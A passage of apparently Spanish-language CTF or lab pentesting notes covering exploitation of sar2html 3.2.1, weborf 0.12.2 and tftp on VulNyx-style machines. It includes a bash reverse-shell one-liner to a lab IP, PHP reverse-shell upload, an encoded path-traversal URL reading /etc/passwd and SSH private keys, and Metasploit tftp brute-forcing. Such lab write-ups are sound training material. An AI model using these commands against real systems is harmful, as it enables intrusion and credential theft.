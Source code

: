 python 49344.py

nos pide que insertemos un url donde corre sar2html 3.2.1

luego nos pide ejecutar comandos, pero no funciona ejecutar un 

bash -c "bash -i >& /dev/tcp/192.168.42.133/443 0>&1"

entonces nos paramos /var/www/vhost ya que es en un subdominio donde lo encontramos, y subimos una reverse shell

nos ponemos en escucha con netcat

luego en la url accedemos a la reverse shell.

http://sar.pl0t.nyx/reverse.php

-------------------------------------------------------------------------------

14.- weborf 0.12.2

Es un servidor web que permite compartir archivos usando el protocolo HTTP.

en el ejemplo máquina Share - vulnyx corre en el puerto 8080

tiene un exploit

https://www.exploit-db.com/exploits/14925

forma de explotar

https://192.168.42.161:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd

LFI

podemos ver el id_rsa pero tenemos que urlencodear

urlencoded
/../../../../../../../home/username/.ssh/id_rsa

https://192.168.42.161:8080/urlencoded

si tiene el puerto ssh corriendo usamos el id_rsa

-------------------------------------------------------------------------------

15.- tftp

Protocolo UDP que corre en el puerto 69

se puede escanear con metasploit.

lo buscamos como search tftpbrute

auxiliary/scanner/tftp/tftpbrute

usando este exploit me saldrá que es lo que tengo en tftp

me conecto sin contraseña

tftp IP-VÍCTIMA

get archivo

Nota: la consola interactiva de tftp no me permite lanzar comandos mas que el comando get, no me permite listar
-------------------------------------------------------------------------------
